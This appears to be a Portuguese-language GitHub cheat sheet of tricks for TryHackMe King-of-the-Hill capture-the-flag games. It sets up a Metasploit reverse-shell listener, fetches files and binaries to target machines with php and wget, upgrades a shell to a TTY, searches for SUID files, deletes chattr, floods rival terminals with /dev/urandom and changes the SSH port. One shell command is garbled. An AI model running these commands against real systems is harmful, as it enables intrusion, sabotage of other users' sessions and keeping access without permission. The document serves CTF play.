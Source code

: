                                                   <Tricks-For-All-Things>

# se você precisa (com certeza vai) instalar o "chattr" em uma máquina aqui vai um presente:

```
https://github.com/Machinh/Koth-THM/blob/main/Files/Chattr/Best-Chattr.md
```

# se você deseja criar um servidor web simples em python (geralmente para baixar ou instalar algo de máquina para máquina):
```
python3 -m http.server <port>
```

# Se você precisar ver protas abertas:

```
netstat -anpt
```

# Baixar files usando php:

```
php -r "copy('https://endereco.com/arquivo.txt','nome_do_arquivo_na_maquina.txt');"

```

```
# receive connections by metasploit:
```
```
use exploit/multi/handler
set PAYLOAD generic/shell_reverse_tcp
set LHOST 127.0.0.1
set LPORT 8080
set ExitOnSession false
exploit -j
```

# Se você precisar instalar python sem root:
```
wget https://www.python.org/ftp/python/3.9.9/Python-3.9.9.tgz
```
```
tar -zxvf Python-3.9.9.tgz
cd Python-3.9.9.tgz
mkdir ~/.localpython
./configure --prefix=/home/$(whoami)/.localpython
make;make install
```

# a fully tty shell:

```
python3 -c"pkill -9 -t pts/ 'import pty;pty.spawn("/bin/bash")'

"ctrl + z"

stty raw -echo && fg

aperte "enter" novamente

export TERM=xterm-256color
```

# Search Suid's:
```
find / -perm -u=s -ls 2>/dev/null > /tmp/.find &
```

# delete chattr:
```
rm -rf /usr/bin/chattr
  ```
# Find Flags:
```
find / -name flags

# Nyan-cat:
git clone https://github.com/klange/nyancat
cd nyancat/src
make
## Sending Nyancat to machine:
python -m SimpleHTTPServer 80 # on your local machine

wget http://yourip/nyancat # on the KOTH machine

chmod +x nyancat

./nyancat > /dev/pts/#  < here where is the # you will place the enemy PTS
```
# Breaking pts by sending spam from urandom
```
cat /dev/urandom > /dev/pts/#
```
# Changing the ssh port:
```
nano /etc/ssh/sshd_config

Include /etc/ssh/sshd_config.d/*.conf

#Port 22
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::

#HostKey /etc/ssh/ssh_host_rsa_key
#HostKey /etc/ssh/ssh_host_ecdsa_key
#HostKey /etc/ssh/ssh_host_ed25519_key
by default the SSH port is port 22, but you can change this port for example
Include /etc/ssh/sshd_config.d/*.conf

Port 55999
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::

#HostKey /etc/ssh/ssh_host_rsa_key
#HostKey /etc/ssh/ssh_host_ecdsa_key
#HostKey /etc/ssh/ssh_host_ed25519_key
service sshd restart
```
//and ready after restarting the SSH service the SSH port will be at 55999
